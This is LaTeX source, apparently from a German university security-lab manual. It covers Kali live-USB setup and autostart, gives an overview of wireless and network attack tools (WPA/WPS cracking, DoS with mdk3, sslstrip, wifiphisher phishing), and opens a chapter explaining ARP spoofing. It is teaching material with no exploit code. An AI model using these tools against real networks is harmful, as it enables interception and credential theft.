		
\includegraphics[width=0.9\textwidth]{images/prep/fdisk_marked.png}
		\caption{Finden der richtigen Partition}
		\label{fig:fdisk partition}
	\end{figure}

Um den Stick nun persistent zu machen, geben Sie folgende Befehle ein.
\begin{itemize}
	\item \bashCommand{mkdir -p /mnt/UUI} Erstellen eines Verzeichnisses um den USB-Stick zu mounten.
	\item \bashCommand{mount /dev/sdc2 /mnt/UUI} Ersetzen Sie sdc2 mit ihrer jeweiligen Partition. Dies mountet die Partition auf das erstellte Verzeichnis.
	\item \bashCommand{echo "/ union"> /mnt/UUI/persistence.conf} Dieser Befehl aktiviert die Persistenz indem die Konfigurationdaten hinzugefügt werden.
	\item \bashCommand{umount /dev/sdc2 \&\& reboot}  Ersetzen Sie sdc2 mit ihrer jeweiligen Partition. Die Partition wird unmounted und der PC startet neu.
\end{itemize}

Die von uns geschaffene Security Workbench befindet sich nun in einem öffentlichen Github Repository. Dieses kann mit folgendem Befehl auf den eigenen Rechner geklont werden:\\
\colorbox{altgray}{\lstinline|git clone https://github.com/th-ingolstadt/INF-M-Projekt-Security-Workbench.git|}
Wurde dieser Befehl ausgeführt sollte eine ähnliche Ausgabe wie hier folgen.

	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\textwidth]{images/prep/git_clone.png}
		\caption{Ausgabe git clone befehl}
		\label{fig:git clone output}
	\end{figure}
Nachdem der Download abgeschlossen ist, befindet sich der Projektordner im root-Verzeichnis.

\section{Einführung in das Arbeiten mit Linux}
\label{sec:startWorkbench}
Um nun mit der Security Workbench arbeiten zu können, muss man diese über das Terminal aufrufen.
Sollte man keine Erfahrung beim Arbeiten mit dem Terminal haben, so kann man hier kurz auf dieser Website die grundlegenden Befehle nachschauen.
\href{http://kali4hackers.blogspot.de/2013/06/some-basic-commands-for-kali-linux.html}{Basic Commands}
Um nun die Workbench aufzurufen werden folgende Befehle benötigt:
\begin{itemize}
	\item \bashCommand{cd INF-M-Projekt-Security-Workbench/} mit diesem Befehl wechselt man in das Verzeichnis INF-M-Projekt-Security-Workbench.
	\item \bashCommand{cd Projekte} hiermit wechselt man in das Verzeichnis Projekte. Die beiden cd Befehle können auch zusammengefasst werden. 
	\item \bashCommand{python securityWorkbench.py} Starten des Security-Workbench-Python-Skriptes. Dies startet das Hauptfenster der Workbench.
\end{itemize}

	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\textwidth]{images/prep/start_the_workbench.png}
		\caption{Start der Workbench mit dem Terminal}
		\label{fig:start workbench with terminal}
	\end{figure}

	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.9\textwidth]{images/prep/mainwindow_workbench.png}
		\caption{Hauptseite der Workbench}
		\label{fig:maindindow workbench}
	\end{figure}

\section{Weitere Konfigurationen}
Auf den von uns vorbereiteten Kali Live USB-Sticks befindet sich ein Autostartskript.  Dieses öffnet beim Systemstart automatisch die Security Workbench.
\begin{itemize}
	\item \bashCommand{[Desktop Entry]} 
	\item \bashCommand{Name=SecurityWorkBench} 
	\item \bashCommand{Path=/root/INF-M-Projekt-Security-Workbench/Projekte/}
	\item \bashCommand{Exec= python securityWorkbench.py} 
	\item \bashCommand{Terminal=true} 
	\item \bashCommand{Type=Application} 
	\item \bashCommand{X-GNOME-Autostart-enabled=true} 
\end{itemize}
Dieses Skript befindet sich auch in der Workbench im Verzeichnis \colorbox{altgray}{\lstinline|Projekte|}.
Um nun dieses Skript auf Ihrem neu erstellten Kali Live USB-Stick zu aktivieren, geben Sie folgenden Befehl in ein neues Terminal ein.

\colorbox{altgray}{\lstinline|cp -i INF-M-Projekt-Security-Workbench/Projekte/sec.desktop /etc/xdg/autostart/|}.

\begin{itemize}
	\item \bashCommand{cp} Kopieren 
	\item \bashCommand{-i} Interaktives Kopieren, sollte bereits eine Datei mit dem selben Namen am Zielort existieren, wird der Benutzer gefragt, ob er diese überschreiben will. 
	\item \bashCommand{INF-M-Projekt-Security-Workbench/Projekte/sec.desktop} Pfad der zu kopierenden Datei.
	\item \bashCommand{/etc/xdg/autostart/} Pfad des Verzeichnisses, in welches die Datei kopiert wird.
\end{itemize}
Beim nächsten Systemstart wird nun automatisch die Hauptseite der Security Workbench im Terminal angezeigt. 
%!TEX root = ../document.tex
\chapter{Verwendete Tools}
Es folgt eine kurze Übersicht der Tools, die in den Beispielen mehrfach eingesetzt werden. Hier wird jeweils der Zweck des Tools und die Bedienung kurz demonstriert.


\section{Wireshark}

% TODO entweder rausnehmen oder ergänzen.
Wireshark ist ein Programm welches einem erlaubt Netzwerkverkehr aufzuzeichnen und zu analysieren.
Auf der offiziellen Webseite \url{https://www.wireshark.org/download.html} kann Wireshark heruntergeladen werden.

\section{Docker}
Docker ist eine leichtgewichtige Virtualisierungsumgebung, die auf einem bestehenden Betriebssystem aufbaut. Ein wichtiges Ziel von Docker ist es Applikationen auf einfache Weise portieren zu können. Dafür werden sogenannte Container eingesetzt, die die Laufzeitumgebung für Applikationen bereitstellen. Die Docker-Engine verwaltet die Container.

\begin{figure}[H]
	\centering
    
\includegraphics[width=0.6\textwidth]{images/tools/docker_schichten_architektur}
    \caption{Docker Virtualisierung Quelle: \url{https://www.docker.com/what-container}}
    \label{img:tools_docker_virtualisierung}
\end{figure}

Container basieren auf der Vorlage von sogenannten Images, diese wiederum werden durch Dockerfiles beschrieben.
Ein Dockerfile ist eine Textdatei, welche die Applikationen und deren Umgebung bestimmen, die später in einem Container laufen sollen.
Mit Hilfe des installierten Docker-Services kann aus dem Dockerfile ein Image gebaut werden.
Aus dem Image können dann beliebig viele Instanzen von Containern erzeugt werden.

\begin{figure}[H]
	\centering
    
\includegraphics[width=\textwidth]{images/tools/Docker_Build_Prozess}
    \caption{Docker - Eigne Container erstellen}
    \label{img:tools_docker_build_container}
\end{figure}

Für Entwickler ist im Anhang \ref{sec:docker_merkblatt} ein Merkblatt, welches die wichtigsten Docker-Befehle auflistet und erklärt. 

\section{Kommandozeilenprogramme}
\subsection{ifconfig}

\colorbox{altgray}{\lstinline|ifconfig|} ist ein Kommandozeilenprogramm unter Unix, das zur Konfiguration und Steuerung von IP-Netzwerkschnittstellen dient. Der Name steht für \enquote{interface configurator}.

Abbildung \ref{img:ifconfig} zeigt beispielhaft eine Ausgabe des Programms. Die relevantesten Informationen wie IP-Adresse, MAC und Interfacenamen wurden in der Grafik hervorgehoben.

\begin{figure}[H]
	\centering
	
\includegraphics[width=1\textwidth]{images/tools/ifconfig.pdf}
	\caption{Beispielausgabe ifconfig}
	\label{img:ifconfig}
\end{figure}

\subsection{aircrack-ng}
\colorbox{altgray}{\lstinline|aircrack-ng|} ist eine komplette Suite von Tools zur Beurteilung der WLAN-Sicherheit. Es wird hier unter anderem zum Cracken der WEP-Verschlüsselung verwendet. Ebenso liefert die Suite Tools zum Monitoring, Angreifen und Testen von WLAN-Netzwerken. Weitere Informationen findet man in der Dokumentation der \colorbox{altgray}{\lstinline|aircrack-ng|}-Suite auf \colorbox{altgray}{\lstinline|http://www.aircrack-ng.org/doku.php|}. Dort kann man auch die verschiedenen Tools und ihre Funktionen einsehen.

\subsection{mdk3}
MDK oder auch Murder Death Kill ist ein Tool, um bei IEEE 802.11-Protokollschwächen aufzudecken. Es wird in dieser Arbeit für DoS Angriffe verwendet. Weitere Informationen über die Funktionsweise findet man unter \colorbox{altgray}{\lstinline|mdk3 --help|}.

\subsection{crunch}
Mit \colorbox{altgray}{\lstinline|crunch|} lassen sich Bruteforce-Attacken mit Wordlists durchführen, um zum Beispiel WPA/WPA2 Passwörter zu knacken. Weitere Informationen zur Bedienung findet man unter \colorbox{altgray}{\lstinline|https://www.wardriving-forum.de/wiki/Crunch_Wordlist_Tutorial|}.


\subsection{reaver und wash}
\colorbox{altgray}{\lstinline|reaver|} ist ein Brute-Force-Tool, welches zum Knacken von WPS-PIN-Verfahren genutzt und somit der WPA/WPA2-PSK extrahiert werden kann. Zu \colorbox{altgray}{\lstinline|reaver|} gehört auch das Kommandozeilenprogramm \colorbox{altgray}{\lstinline|wash|}. Dieses hat im Prinzip nur den einen Zweck, herauszufinden welche WLANs die Authentifizierung per WPS zulassen, und ob WPS gerade aktiv ist. Weitere Informationen zu reaver lassen sich einfach durch die Eingabe von \colorbox{altgray}{\lstinline|reaver --help|} in der Kommandozeile aufrufen.

\subsection{bully}

\colorbox{altgray}{\lstinline|bully|} ist ein weiteres Brute-Force-Tool für WPS, dass hier als Alternative für \colorbox{altgray}{\lstinline|reaver|} angewendet wird. Über \colorbox{altgray}{\lstinline|bully --help|} kann man in der Kommandozeile weitere Informationen zu den Parametern einsehen.

\subsection{hashcat}
\colorbox{altgray}{\lstinline|Hashcat|} ist als Open Source Software konzipiert und der schnellste Passwortcracker der zur Zeit erhältlich ist. Außerdem nutzt diese Software die GPU einer dedizierte Grafikkarte für den Cracking-Vorgang. Weitere Informationen lassen sich entweder in der Kommandozeile über \colorbox{altgray}{\lstinline|hashcat --help|} oder auf der \colorbox{altgray}{\lstinline|hashcat|}-Seite unter \colorbox{altgray}{\lstinline|https://hashcat.net/wiki/doku.php?id=hashcat|} einsehen.

\subsection{OpenSSL}
OpenSSL ist ein Toolkit und eine Bibliothek rund um die Erzeugung und Verwaltung von Zertifikaten und Schlüsseldateien. Zudem stellt sie eine Implementierung verschiedener Netzwerkprotokolle rund um SSL und TLS bereit. OpenSSL wird in Webservern wie Apache und nginx eingesetzt.

\subsection{Nmap}
Nmap ist ein Portscanner -- er ermöglicht es, in einem Netzwerk offene UDP und TCP Ports aufzuspüren und bietet auch eine Erkennung der laufenden Dienste sowie des verwendeten Betriebssystems an. Als Alternative zum kommandozeilenbasierten Nmap existiert mit Zenmap auch ein darauf aufbauendes Tool mit graphischer Oberfläche und gleichem Funktionsumfang.

\subsection{hping3}
hping ist ein kommandozeilen TCP/IP-Paketerzeuger und Analyst. hping unterstützt TCP, UDP, ICMP und RAW-IP Protokolle. hping wird unter anderem für Firewalltests und Netzwerktests verwendet.

\subsection{Metasploit}

Das Metasploit-Framework ist eine Sammlung von konfigurierbaren Exploits, welches mit dem Kommando \bashCommand{msfconsole} gestartet werden kann. Zur Dokumentation der Ergebnisse -- etwa im Rahmen eines Penetrationtestings -- kann eine PostgreSQL-Datenbank angebunden werden.

\subsection{arp}
\colorbox{altgray}{\lstinline|arp|} ist ein Kommandozeilenprogramm zum Auslesen und Verändern des ARP-Caches. Es wird hier verwendet, um die ARP-Tabelle vor und nach einem Angriff darzustellen. Mit Hilfe von \colorbox{altgray}{\lstinline|man arp|} können zusätzliche Informationen und die zur Verfügung stehenden Parameter nachgelesen werden.

\subsection{sslstrip}
Dieses Tool wird zur Demonstration der SSLStrip Attacke verwendet. Dabei werden HTTPS-Verbindungen des Opfers auf HTTP-Verbindungen umgeleitet wodurch der Datenverkehr mitgelesen werden kann. Das Tool wurde von Moxie Marlinspake entwickelt und unter \colorbox{altgray}{\lstinline|https://moxie.org/software/sslstrip/ |} können weitere Informationen eingesehen werden.

\subsection{iptables}
Mit Hilfe von \colorbox{altgray}{\lstinline|iptables|} können Regeln zur Konfiguration der Firewall erstellt und bearbeitet werden. Unter \colorbox{altgray}{\lstinline|man iptables|} ist eine sehr ausführliche Dokumentation zur Benutzung zu finden.

\subsection{sysctl}
\colorbox{altgray}{\lstinline|sysctl|} ist ein Werkzeug zur Veränderung von Kernelparameter während der Laufzeit. Dabei können alle Parameter bearbeitet werden, die unter proc/sys/ aufgelistet sind. Zusätzliche Informationen werden bei der Ausführung von \colorbox{altgray}{\lstinline|man sysctl|} ausgegeben.

\subsection{GNU Compiler Collection}
Die GNU Compiler Collection bietet Compiler für verschiedene Programmiersprachen und unterschiedliche Betriebssystemen. Hier wird der C-Compiler zusammen mit dem GNU Debugger verwendet. Auf der Homepage \colorbox{altgray}{\lstinline|https://gcc.gnu.org|} kann man sich über die unterstützten Sprachen und Betriebssysteme als auch über die neuesten Releases informieren.

\subsection{hostapd}
\colorbox{altgray}{\lstinline|hostapd|} ist ein WLAN-Deamon/Dienst, der auch auf linuxbetriebenen Routern zu finden ist. \colorbox{altgray}{\lstinline|hostapd|} implementiert nach IEEE 802.11 das Access-Point-Management, IEEE 802.1X/WPA/WPA2/EAP Authentikatoren, eine RADIUS Client, EAP Server und RADIUS Authentifizierungsserver.
\subsection{wifiphisher}
\colorbox{altgray}{\lstinline|wifiphisher|} ist ein Python-Kommandozeilenprogramm welches konfigurierbare Wifi-Phishing-Angriffe zur Verfügung stellt. \colorbox{altgray}{\lstinline|wifiphisher|} baut Fake-Access-Points auf und liefert dazugehörige Phishing-Seiten um beispielsweise WLAN-Zugangskennwörter abzufragen.



%!TEX root = ../document.tex
\chapter{ARP Spoofing}
\label{chapter_arp_spoofing}
ARP Spoofing ist ein Man-In-The-Middle-Angriff (MITM-Angriff) mit dem Ziel, den Netzwerkverkehr von einem oder mehreren fremden Rechnern zu überwachen und zu manipulieren.

\section{Erklärung}
Für die Kommunikation über ein Netzwerk wird die MAC-Adresse des Zielrechners genutzt. Da meist nur die IP-Adresse zur Verfügung steht, gibt es das Address Resolution Protocol (ARP), mit dessen Hilfe eine Verknüpfung zwischen den beiden Adressen hergestellt werden kann. Außerdem hat jeder Rechner eine ARP-Tabelle in der sämtliche bekannte Verknüpfungen zwischen IP- und ARP-Adresse gespeichert werden. In Abbildung \ref{fig:arp_tabelle_vorher} wird eine unveränderte ARP-Tabelle dargestellt. Es ist in jeder Zeile eine IP-Adresse mit der zugehörigen MAC-Adresse (physische Adresse), sowie deren Typ zu sehen. Der Typ kann dabei statisch -- und damit nachträglich nicht mehr veränderbar -- oder dynamisch sein.

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/ARP_Spoofing/ARP_Tabelle_Vorher}
	\caption{Unveränderte ARP-Tabelle mit dynamischen und statischen Einträgen}
	\label{fig:arp_tabelle_vorher}
\end{figure}

Möchte nun ein Rechner Daten versenden, so wird als erstes in der eigenen ARP-Tabelle nach dem Zielrechner gesucht. Existiert noch kein Eintrag, verschickt der Rechner einen ARP-Request an die Broadcast-MAC-Adresse, um die MAC-Adresse zu seiner Ziel-IP-Adresse von den anderen Netzwerkteilnehmern zu erfragen. Abbildung \ref{fig:arp_request} zeigt einen möglichen Aufbau eines solchen ARP-Requests. Daraufhin schickt der Zielrechner seine MAC-Adresse mittels eines ARP-Replys direkt an den Quellrechner zurück. Ein beispielhafter Aufbau eines ARP-Replys ist in Abbildung \ref{fig:arp_reply} dargestellt. Der Quellrechner legt für diese Verknüpfung einen neuen Eintrag in seiner ARP-Tabelle an und kann daraufhin die Daten versenden.

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/ARP_Spoofing/ARP_Request}
	\caption{Aufgezeichneter ARP-Request für die Adresse 192.168.178.32 mit leerer MAC-Adresse}
	\label{fig:arp_request}
\end{figure}

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/ARP_Spoofing/ARP_Reply}
	\caption{Aufgezeichneter ARP-Reply von der Adresse 192.168.178.32 mit der zugehörigen MAC-Adresse}
	\label{fig:arp_reply}
\end{figure}

Da im Jahr 1982 bei Erscheinen des Protokolls nur dessen Funktionalität und nicht dessen Sicherheit relevant war, wurden die Schwächen des Protokolls erst im Nachhinein entdeckt. So wird bei einem eingehenden ARP-Reply nicht geprüft, ob es zuvor einen ARP-Request gab. Es wird also lediglich ein Eintrag in der ARP-Tabelle generiert oder ein bestehender Eintrag geändert.

